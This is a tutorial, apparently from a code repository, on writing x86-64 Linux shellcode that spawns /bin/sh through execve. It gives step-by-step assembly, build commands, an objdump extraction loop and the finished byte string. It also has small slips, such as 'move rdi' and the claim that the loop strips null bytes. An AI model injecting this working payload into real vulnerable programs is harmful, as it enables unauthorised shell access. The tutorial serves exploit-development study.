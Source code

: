 # Shellcode

## Logistics

1. we need to call 

```c
execve("/bin/sh", ["/bin/sh"], null)
```

2. the address of the first 3 arguments of `execve` are stored at `rdi`, `rsi`, `rdx`.

3. to load null pointer into `rdx`, we should do

```assembly
xor rdx rdx
push rdx
```

4. to push the "/bin/sh" argument to stack, we need

```assembly
mov rax, <little-endian representation of the "/bin/sh" string>
push rax
```

5. to load into `rdi` the stack pointer (now points to "/bin/sh"), we do

```assembly
move rdi, rsp
```

6. to push the array `["/bin/sh"]` onto stack with a null pointer indicating its end, we do

```assembly
push rdx
push rdi
``` 

7. to load the above (pointed by rsp now) address into `rsi`, we do

```assembly
mov rsi, rsp
```

8. now we need to load 59 into the least significant byte of `rax`, before that we should tidy up.

```assembly
xor rax rax
mov al 0x3b
```

## Assembly code

```assembly
; runs /bin/sh

section .text
    global _start

_start:

    xor rdx, rdx
    push rdx
    mov rax, <little endian of "/bin/sh">
    push rax
    mov rdi, rsp
    push rdx
    push rdi
    mov rsi, rsp
    xor rax, rax
    mov al, 0x3b
    syscall
```

By playing with convert.py, we know that the "/bin//sh" little endian presentation should be `0x68732f2f6e69622f`.

Now we can compile it: 

```bash
nasm -f elf64 example.asm -o example.o
```

Use GNU linker (ld), we could combine the compiled object file with symbol references.

```bash
ld -m elf_x86_64 -s -o example example.o
```

## Make shellcode

Run 

```bash
for i in $(objdump -d example |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```

to remove null bytes in the objdump output.

We get out final shellcode

```
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05
```.